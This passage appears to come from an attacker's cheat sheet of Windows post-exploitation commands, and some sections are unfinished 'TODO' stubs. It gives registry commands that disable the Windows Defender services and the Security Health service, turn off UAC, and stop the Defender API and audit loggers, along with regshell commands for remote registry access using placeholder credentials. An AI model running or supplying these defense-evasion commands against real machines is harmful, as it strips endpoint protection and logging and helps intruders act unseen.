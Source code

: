 ##### 1.3.1.1.3 - Regshell

TODO: Complete this

```
$ regshell -U <DOMAIN>/<username>%<password> -R <IP>

> predef HKEY_LOCAL_MACHINE
> cd HKEY_LOCAL_MACHINE\Policies\Microsoft
```

#### 1.3.1.2 - Disable Windows Defender Services

##### 1.3.1.2.1 - Command Prompt

- Note: Run this again because Windows Defender is very persistent

```
C:\> reg add "HKLM\System\CurrentControlSet\Services\WdBoot" /v "Start" /t REG_DWORD /d "4" /f

C:\> reg add "HKLM\System\CurrentControlSet\Services\WdFilter" /v "Start" /t REG_DWORD /d "4" /f

C:\> reg add "HKLM\System\CurrentControlSet\Services\WdNisDrv" /v "Start" /t REG_DWORD /d "4" /f

C:\> reg add "HKLM\System\CurrentControlSet\Services\WdNisSvc" /v "Start" /t REG_DWORD /d "4" /f

C:\> reg add "HKLM\System\CurrentControlSet\Services\WinDefend" /v "Start" /t REG_DWORD /d "4" /f

C:\> reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f

C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

##### 1.3.1.2.2 - Powershell

TODO: Complete this

##### 1.3.1.2.3 - Regshell

TODO: Complete this

```
$ regshell -U <DOMAIN>/<username>%<password> -R <IP>

> predef HKEY_LOCAL_MACHINE
> cd Policies\Microsoft
```

#### 1.3.1.3 - Disable Logging

##### 1.3.1.3.1 - Command Prompt

```
C:\> reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

C:\> reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderAuditLogger" /v "Start" /t REG_DWORD /d "0" /f
```
